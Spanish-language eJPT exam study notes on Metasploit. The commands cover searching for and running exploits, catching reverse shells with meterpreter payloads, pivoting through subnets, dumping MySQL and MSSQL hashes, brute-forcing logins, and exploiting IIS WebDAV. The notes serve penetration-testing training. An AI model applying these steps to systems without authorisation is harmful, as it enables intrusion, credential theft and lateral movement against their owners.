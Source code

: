 # Metasploit

Propietario: Adrian Gisbert Cabello

Ejecutar metasploit examen eJPT: `service postgresql start && msfconsole`

- Comandos para usar en metasploit:
    - Para abrir metasploit: `msfconsole`
    - Para buscar un exploit: `search NOMBRE DE LA VULNERABILIDAD`
    - Para usar un exploit una vez que tenemos el listado: `use 0`	(cambiar el 0 por el número del exploit que queramos escoger)
    - Para ver las opciones que tiene el script seleccionado: `show options`
    - Para setear las opciones:	`set XXXX`(por ejemplo set LHOST, RHOST, LPORT, RPORT etc.)
    - Para usar un exploit manualmente en nuestra terminal sin usar msfconsole:		***searchsploit <nombre de la vulnerabilidad>***  (`searchsploit sftpd 2.3.4`)		→		***searchsploit -m <número del .py>*** (`searchsploit -m 49757`) → una vez descargado en nuestro directorio podemos hacer un ***nano*** del archivo.py para ver las instrucciones y ejecutarlo con los argumentos que nos pida (`python3 49757.py 1234`). Si solo queremos ver el archivo usar `searchsploit -x 49757`
    - Para logearse a través de la consola de  metasploit: `search ssh_login` | `search mysql_login`
    - Para ver las sesiones creadas una vez logeados: `sessions`
    - Para entrar dentro de una sesión: `sessions 1`(cambiar el número por la sesión a la que queramos entrar) para salir de la sesión pulsamos simultáneamente ***CTRL + Z***
    - Cerrar una sesión de metasploit: `sessions -k 1`(cambiar el número por la sesión que queramos cerrar)
    - Para upgradear una sesión en metasploit y pasarla a meterpreter: `sessions -u 1` ******(cambiar el número por la sesión a la que queramos upgradear)		normalmente se puede elevar si entramos a una sesión con usuarios con permisos de admin
    - Para saber la route_table (direcciones de subredes que hayamos configurado): `route print` o también  `route`
    - Para buscar vulnerabilidades usar el comando ***searchsploit*** <NOMBRE DE LA VULNERABILIDAD> `searchsploit openssh 7.2`
    - Para mediante una reverse shell conectarse a través de metasploit y luego poder upgradear a una sesión meterpreter, primero nos ponemos en modo escucha en metasploit con `use multi/handler`, ponemos el LHOST y LPORT y le damos a `run`. Una vez estamos en escucha, activamos la reverse shell en la máquina víctima y ya tendremos una sesión normal.
    
    Podemos usar un payload para windows: `set payload windows/meterpreter/reverse_tcp` | `set payload linux/x64/meterpreter/reverse_tcp`
    
    Ahora podemos hacer 2 cosas para levear la sesión a una sesión meterpreter:
    
    1. `sessions -u 1` (tenemos que cambiar el 1 por el número de la sesión que queramnos levear)
    
    2. `use shell_to_meterpreter`, ponemos el LHOST, LPORT y la SESSION. (una vez rellenados los datos le damos a `run` y se nos creará una nueva sesión meterpreter)
    
    Para añadir una ip a la tabla de rutas de nuestra máquina atacante y poder ver otros equipos en esas subredes podemos hacerlo de 3 maneras:
    
    1. `use multi/manage/autoroute ----- show options ----- set SESSION X`
    
    2. `run autoroute -s 192.168.X.0/24` ******(aquí pondremos la nueva ip encontrada y su máscara de red, en este caso es /24 porque era 255.255.255.0)
    
    3. Para añadir un segmento de red en meterpreter: `route add 192.168.X.0/24 2` (añadimos la ruta a la sesión 2)
    
    - Para visualizar la tabla de rutas: `route`
    - Para eliminar una ruta en la tabla de rutas: `route del 192.168.X.0/24 2` (borramos una ruta en la sesión 2)
    - Para hacer escaneo de puertos en msfconsole: `use auxiliary/scanner/portscan/tcp` → `show options`	→ `set rhost <ip del equipo en la subred>` → `set ports 1-65000` (si queremos menos puertos y más rápido, p.ej: 1-1000)
    - Para hacer un port_forwarding en meterpreter: `portfwd add -l 2233 -p 445 -r 192.168.224.X`	(significa que por nuestro puerto 2233 de la máquina atacante, veremos el puerto 445 de la máquina víctima
    - Para listar los puertos que hemos hecho port_forwarding: `portfwd list`
        
        Ahora podemos hacer un escaneo en nmap desde el terminal al puerto que hemos añadido: `nmap -p2233 [localhost](http://localhost)` o un escaneo más exaustivo `nmap -sSCV -p2233 localhost`
        

- Escaners en Metasploit para MySQL:
    
    Para ver directorios con permisos de escritura: `use auxiliary/scanner/mysql/mysql_writable_dirs`
    
    `set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt`
    
    `set verbose false`
    
    `set password ''`
    
    `run`
    
    Para dumpear hashes: `use auxiliary/scanner/mysql/mysql_hashdump`
    
    `set username root`
    
    `set password ''`
    
    `exploit`
    

- Con la herramienta metasploit podemos usar los siguientes scripts:
    - Fuerza bruta: `use auxiliary/scanner/mssql/mssql_login`
    - Enumeración en mysql: `use auxiliary/admin/mssql/mssql_enum`
    - Dumpear hashes: `use auxiliary/scanner/mssql/mssql_hashdump`
    - Para saber que privilegios tienen los usuarios: `use auxiliary/admin/mssql/mssql_enum_sql_logins`
    - Para enumerar dominios: `use auxiliary/admin/mssql/mssql_enum_domain_accounts`
    - Ejecución remota de comandos (RCE) con credenciales: `use auxiliary/admin/mssql/mssql_enum_exec`
    
    `set cmd whoami`
    

Exploit para webdav:

`search iis upload`

`use exploit/windows/iis/iis_webdav_upload_asp`

Especificar HttpPassword y HttpUsername del webdav server

[Meterpreter](Metasploit/Meterpreter.md)

[Msfvenom](Metasploit/Msfvenom.md)
